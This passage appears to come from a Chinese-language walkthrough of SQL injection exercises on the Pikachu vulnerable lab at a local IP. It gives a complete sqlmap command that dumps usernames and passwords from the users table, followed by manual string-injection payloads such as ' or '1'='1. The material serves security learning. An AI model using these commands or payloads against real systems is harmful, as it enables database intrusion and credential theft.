 

联合获取用户账号密码字段信息：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_id.php" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users -C "username,password" --dump
```

![image-20250225124133782](../../_media/image-20250225124133782.png)

也是成功跑出了用户的账号密码

后续的SQLmap使用就只贴命令而不贴结果了。



### 字符型注入(get)

输入

```
1'
```

![image-20250121082459446](../../_media/image-20250121082459446.png)



判断闭合符为`'`单引号

```
' or '1'='1
```

查询所有信息
